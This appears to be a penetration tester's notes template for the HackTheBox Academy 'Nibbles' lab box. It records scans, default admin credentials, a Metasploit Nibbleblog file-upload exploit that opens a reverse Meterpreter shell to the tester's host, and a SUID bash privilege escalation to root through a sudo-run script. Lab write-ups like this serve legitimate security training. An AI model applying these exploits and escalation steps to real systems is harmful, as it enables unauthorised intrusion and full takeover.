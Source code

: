 # BOX NAME: Nibbles
**LINK**: HackTheBox Academy

<details open><summary><ins>SUMMARY</ins></summary>

```
1. 
2. 
3. 
4. 
5.

```
</details>

# REMOTE ENUMERATION:

<details><summary><ins>TARGET</ins></summary>

```
[+] IP:		10.129.245.197
[+] URL:	http://10.129.245.197
```
</details>
<details><summary><ins>NMAP</ins></summary>

```
└─$ nmap -sC -sV 10.129.245.197 -p- -oN nibbles-nmap.log  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 13:33 CEST
Nmap scan report for 10.129.245.197
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                             
                                                                                                                    
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                      
Nmap done: 1 IP address (1 host up) scanned in 33.04 seconds

```
</details>
<details><summary><ins>WEB</ins></summary>

whatweb-scan
```
http://10.129.245.197 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.245.197]

http://10.129.245.197/nibbleblog [301 Moved Permanently] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.245.197], RedirectLocation[http://10.129.245.197/nibbleblog/], Title[301 Moved Permanently]                                                                                                     
http://10.129.245.197/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.245.197], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
```

nikto-scan
```

```

fuzzing
```

```
other
```

```

</details>

<details><summary><ins>SERVICES</ins></summary>

FTP
```

```

SSH
```

```

SNMP
```

```

DNS
```

```

MAILSERVICES (POP, IMAP, SMTP)
```

```

LDAP
```

```

</details>

<details><summary><ins>Active Directory</ins></summary>

Active Directory
```

```
</details>

<details><summary><ins>SUMMARY REMOTE</ins></summary>

```
1. /nibbleblog/
2. /nibbleblog/admin.php (admin:nibbles)
3.
```
</details>

# LOCAL ENUMERATION:

<details><summary><ins>FILES OF INTEREST</ins></summary>

**FILES**:
```

```

**SUID's**:

```

```
**SGID's**:

```

```
**OTHERS**:

```

```
</details>


# LOOT

<details><summary><ins>USEFUL INFORMATION:</ins></summary>

**Kernel Info:**
*file /bin/bash ; echo -e " \\n" && lsb_release -a ; echo -e "\\n" && uname -a*
```

```
</details>

<details><summary><ins>CREDS:</ins></summary>

```
{username:password}

Wordpress Login | admin:nibbles
```
</details>

<details><summary><ins>HASHES:</ins></summary>

```

```
</details>

# PROOFS

<details><summary><ins>Proofs</ins></summary>

Final payload:
```
cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
cd /tmp/./rootbash -p

```

```
nibbler@Nibbles:/tmp$ ./rootbash -p
rootbash-4.3# id
uid=1001(nibbler) gid=1001(nibbler) euid=0(root) egid=0(root) groups=0(root),1001(nibbler)

```

```
Flags:
A1:	79c03865431abf47b90ef24b9695e148
A2: de5e5d6619862a8aa5b9b212314e0cdd
```

```
Metasploit module:

msf6 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.158:9443 
[*] Sending stage (39927 bytes) to 10.129.245.197
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.14.158:9443 -> 10.129.245.197:60296) at 2023-06-11 14:07:54 +0200

meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 1675 created.
Channel 0 created.
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ id
id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```
</details>